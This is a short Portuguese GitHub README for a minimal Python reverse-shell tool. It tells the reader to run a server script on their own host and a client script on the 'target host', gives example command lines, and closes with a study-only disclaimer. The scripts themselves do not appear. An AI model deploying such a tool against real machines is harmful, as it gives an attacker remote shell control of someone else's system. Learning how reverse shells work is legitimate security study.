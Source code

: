 # Python Reverse Shell

Script simplificado e minimalista que executa a criação de um reverse shell entre servidor e cliente.

## 🚀 Run

 1. Executar ReverseShell-server.py em seu host.
 ```
python ReverseShell-server.py
 ```
 2. Executar ReverseShell-client.py no host alvo.
 ```
python ReverseShell-client.py targetIP
 ```
 Exemplo
 ```
python ReverseShell-client.py 127.0.0.1
 ```
### 📋 Pré-requisitos

-> Python


### 🔧 Instalação

Não requer instalação.



## 🛠️ Construído com

-> Python 3.9.2


## 📌 Versão

-> 1.0


## 📄 Termos

Não me responsabiliso por qualquer uso inadequado/indevido desta aplicação.

Esta aplicação foi constuída apenas com propósito de estudo.

---
⌨️ com ❤️ por [babyboydaprince](https://github.com/babyboydaprince) 😊